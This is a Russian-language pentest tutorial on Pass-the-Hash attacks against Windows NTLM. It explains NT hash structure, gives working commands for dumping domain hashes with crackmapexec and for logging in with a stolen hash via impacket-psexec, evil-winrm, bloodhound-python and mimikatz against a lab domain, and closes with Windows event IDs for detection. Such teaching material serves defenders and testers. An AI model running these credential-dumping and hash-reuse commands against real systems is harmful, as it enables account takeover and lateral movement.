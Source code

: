 > [!important]  
> Атака Pass The Hash позволяет злоумышленнику повторно использовать NT хэш для входа систему, избегая ввода пароля и используя протокол NTLM для авторизации, вместо базового Kerberos.  

# Что такое NT хэш и как его получить?

NTLM хэш (NTHash) представляет собой следующую цепочку преобразований:

Пароль пользователя —> UTF16-LE (LE - Little Endian) —> MD4

`test.local\pth-user:1114:aad3b435b51404eeaad3b435b51404ee:8c2cf560d8d8abef7f13348b6aef1450:::`

### Как видно, строка дампа состоит из 4х основных частей

1. Логин пользователя
2. Числовой идентификатор (UID)
3. LM хэш (устаревший вариант, который легко брутится)
4. NT хэш

  

### NT хэш получают одним из следующих способов

- Дамп NTDS.DIT
- Дамп lsass.exe
- Дамп SAM (дамп ветки реестра **HKEY_LOCAL_MACHINE\SAM** для локальных УЗ)

  

### Пример получения NT хэша, используя метод дампа NTDS

`crackmapexec smb 192.168.1.1 -u Администратор -p password --ntds`

![](../../../Attachments/Untitled_13.png)

В данном случае, важно учитывать наличие необходимых прав УЗ.

# Практика

Как было сказано, PTH позволяет войти в систему без пароля по протоколу NTLM.

Обычно, для этих целей используется PSexec из набора Impacket:

`impacket-psexec -dc-ip 192.168.1.1 pth-user@test.local -hashes` `aad3b435b51404eeaad3b435b51404ee:8c2cf560d8d8abef7f13348b6aef1450`

![](../../../Attachments/Untitled_1_2.png)

# Дополнительная информация

## Использование только NT хэша

На данный момент, LM хэш не является обязательным атрибутом для проведения атаки PTH. Как можно заметить, LM хэш для каждого пользователя из примера получения хэшей совпадает и начинается с `aad3b4…`. Такая особенность связана с хэшированием “пустого пароля”, поскольку в современных системах используется только NT хэш из-за слабой криптостойкости односторонней функции хэширования, и такая конструкция называется **“заглушкой”**. Именно поэтому, возможно использовать лишь NT хэш:

`impacket-psexec -dc-ip 192.168.1.1 pth-user@test.local -hashes` `:8c2cf560d8d8abef7f13348b6aef1450`

![](../../../Attachments/Untitled_2_2.png)

## Основные утилиты, представляющие функционал для PTH

- **psexec**
    - `impacket-psexec -dc-ip 192.168.1.1 pth-user@test.local -hashes` `:8c2cf560d8d8abef7f13348b6aef1450`
- **evil-winrm**
    - `evil-winrm -i 192.168.1.1 -u “TEST\pth-user” --hash` `8c2cf560d8d8abef7f13348b6aef1450`
- **crackmapexec**
    - `crackmapexec smb 192.168.1.1 -u pth.user -H` `8c2cf560d8d8abef7f13348b6aef1450`
- **bloodhound-python**
    - `bloodhound-python -u “pth-user” --hashes` `aad3b435b51404eeaad3b435b51404ee:8c2cf560d8d8abef7f13348b6aef1450` `-ns 192.168.1.1 -d test.local -c all`
- mimikatz.exe
    - `privilege::debug`
    - `sekurlsa::pth /user:pth-user /domain:test /ntlm:``8c2cf560d8d8abef7f13348b6aef1450` `/run:powershell.exe`
- **и т.д.**

## Меняется ли алгоритм аутентификации NTLM при PTH?

Нет, сам алгоритм никак не меняется, поскольку при легитимной аутентификации пароль в открытом виде не применяется, но берется его хэш.

При атаке PTH нам не нужно вычислять хэш пароля, поскольку он у нас и так уже есть.

# Профит

Как уже было сказано, злоумышленник может повторно использовать украденный NT хэш для аутентификации по протоколу NTLM, минуя явное указание пароля и аутентификацию Kerberos.

### Также можно

- получить TGT билет
- Сбрутить хэш и получить пароль

# Артефакты

==Основной проблемой атаки PTH для синей команды является сложность детекта для удаленно проведенной атаки.==

Обычно, неудачная попытка доступа к шаре при указании неверного пароля/NT хэша вызывает следующие индикаторы:

- **Logon Type 3 (Network)** - пользователь или компьютер входит в систему
- **4625** - ошибка входа в связи с неверным УД

Однако, такой расклад не доказывает попытку проведения атаки Pass-The-Hash в полной мере.

### Основными индикаторами локально проведенной атаки служат 3 фактора

1. **Logon Type 9 (New credentials)** - использование утилиты “runas” для запуска приложения
2. **4648** - Выполнена попытка входа в систему с явным указанием УД
3. **4624** - Вход в УЗ выполнен успешно

  

_Еще иногда к этому добавляется событие_

**4672** - Специальные привилегии, присвоенные новому входу в систему

По сути, это событие возникает при учете входа в УЗ, обладающей административными правами.
